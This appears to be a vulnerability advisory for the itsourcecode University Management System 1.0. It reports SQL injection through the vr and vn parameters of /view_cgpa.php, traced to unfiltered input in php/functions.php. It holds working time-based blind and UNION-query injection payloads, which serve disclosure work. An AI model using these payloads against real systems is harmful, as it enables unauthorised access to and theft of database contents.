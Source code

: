 
# Vendor

itsourcecode

# Product

University Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2022/01/University-Management-System-Project-In-PHP-Source-Code.zip

# Description
log in with a admin account, and in the student account's backend, visit "/view_cgpa.php". This page can accept two parameters, VR and VN, both of which can lead to SQL injection attacks.

POC：
```
Parameter: vr (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: vr=123321' AND (SELECT 6610 FROM (SELECT(SLEEP(5)))DIfN) AND 'OIeq'='OIeq&vn=mirage

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: vr=123321' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7171706271,0x614b42746d4946444c726d734d695a52654d4a5676534344787557687076666b756f73726b727155,0x7176626271),NULL-- -&vn=mirage
    
<img width="1664" alt="image" src="https://github.com/user-attachments/assets/a38374ae-a71a-4ab7-b742-625fcaa963a8">
```

# Analysis
In the php/functions.php page, the '$stid' field has not been subjected to strict filtering, resulting in a SQL injection vulnerability.

<img width="1074" alt="image" src="https://github.com/user-attachments/assets/ba124d6c-3ec1-4eef-848b-0f8a2aac248d">
<img width="1229" alt="image" src="https://github.com/user-attachments/assets/40c092f7-4eed-45d0-8e81-88c6bc97a2e3">


